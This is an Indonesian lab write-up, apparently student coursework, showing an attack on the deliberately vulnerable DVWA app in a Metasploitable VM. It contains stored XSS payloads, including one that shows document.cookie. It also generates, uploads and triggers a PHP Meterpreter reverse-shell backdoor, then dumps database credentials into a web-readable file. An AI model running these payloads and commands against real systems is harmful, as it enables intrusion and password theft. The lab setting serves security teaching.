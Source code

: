 # DVWA | Lesson 9
## Konfigurasi

###{ Upload PHP Backdoor Payload }

pada lesson 9, kami menggunakan metasploid dan backtrack.

- pertama-tama agar backtrack dan metasploit mendapat IP, buka vm -> klik kanan -> setting -> network -> pilih bridge adapter

![alt text](./backtrack.PNG)
![alt text](./metasploit.PNG)

Alamat target DVWA (metasploitable) 
`http://10.151.34.170`

Alamat penyerang (backtrack)
`http://10.151.34.160`


## Skenario

- start metasploit dan backtrack yang sudah dikonfigurasi
- masuk ke folder :
    `/var/www/dvwa/vulnerabilities/xss_s`
![alt text](./1.PNG)
- edit file index.php
    `nano index.php`
![alt text](./2.PNG)
- carilah kata mtxMessages
- caranya dengan ctrl+w, masukan keyword mtxMessages
![alt text](./3.PNG)
- ganti maxlength menjadi 250
![alt text](./4.PNG)
- buka preference pada bactrack
![alt text](./5.PNG)
- klik content
- uncheck block pop up windows
- klik close
![alt text](./6.PNG)
- login dvwa pada firefox backtrack
- buka 10.151.34.170/dvwa/login.php
![alt text](./7.PNG)
- seting dvwa security low
- klik submit
![alt text](./8.PNG)
- buka halaman xss stored
- masukkan script :
    `<script>alert("tesss")</script>`
- klik submit
![alt text](./9.PNG)
- berhasil
![alt text](./10.PNG)
- masuk ke halaman setup
- klik create database
![alt text](./11.PNG)
- masuk ke halaman xss stored
![alt text](./12.PNG)
 - masukkan message 
    `<iframe src = "www.its.ac.id"></iframe>`
![alt text](./13.PNG)
- berhasil
![alt text](./14.PNG)
- kembali masuk ke setup
- create database
![alt text](./15.PNG)
- masuk ke halaman xss stored
- masukkan script 
    `<script>alert(document.cookie)</script>`
![alt text](./16.PNG)
- berhasil
![alt text](./17.PNG)
- buka terminal
- masukkan command berikut :

    `mkdir -p /root/backdoor`

    `cd /root/backdoor`
    
    `msfpayload php/meterpreter/reverse_tcp` 
    
    `LHOST=10.151.34.160 LPORT=4444 R > FORUM_BUG.php`
    
    `ls -l FORUM_BUG.php`

![alt text](./18.PNG)
- buka nano FORUM_BUG.php
- hapus tanda # yang ada
- simpan dengan ctr+x
![alt text](./19.PNG)
- upload file FORUM_BUG.php
![alt text](./20.PNG)
- buka terminal
- buka msfconsole
![alt text](./21.PNG)

    `use exploit/multi/handler`

   `set PAYLOAD php/meterpreter/reverse_tcp`
    
    `set LHOST 10.151.34.160`
    
    `set LPORT 4444`
    
    `exploit`

![alt text](./22.PNG)
- masuk ke dvwa pada backtrack firefox
- masuk ke halaman setup
![alt text](./23.PNG)
- ketik script :    `<script>window.location="http://192.168.1.106/dvwa/hackable/uploads/FORUM_BUG.php" </script>`
![alt text](./24.PNG)
- hasil
![alt text](./25.PNG)
- koneksi sudah stabil
![alt text](./26.PNG)
- melakukan shell
![alt text](./27.PNG)
- whoami 
    dilakukan untuk menampilkan nama user, disini ada www-data
- grep apache /etc/passwd      
- find /var/www/* -print | grep config
       
![alt text](./28.PNG)
- grep "db_" /var/www/dvwa/config/config.inc.php
- echo "use dvwa; show tables;" | mysql -uroot 
- echo "use dvwa; desc users;" | mysql -uroot 

![alt text](./29.PNG)
- echo "select user,password  from dvwa.users;" | mysql -uroot
![alt text](./30.PNG)

- buka terminal lagi
- masukkan command :

    `echo "<pre>" >> /var/www/dvwa/hackable/uploads/xss.html`

    `echo "select user,password from dvwa.users;" | mysql -uroot>> /var/www/dvwa/hackable/uploads/xss.html`

    `echo "</pre>" >> /var/www/dvwa/hackable/uploads/xss.html`

    `echo "<br>Anindita<br>" >> `

    `/var/www/dvwa/hackable/uploads/xss.html`
    
    `date >> /var/www/dvwa/hackable/uploads/xss.html`
  

![alt text](./31.PNG)





## Hasil
kita bisa mengcrack password 
![alt text](./32.PNG)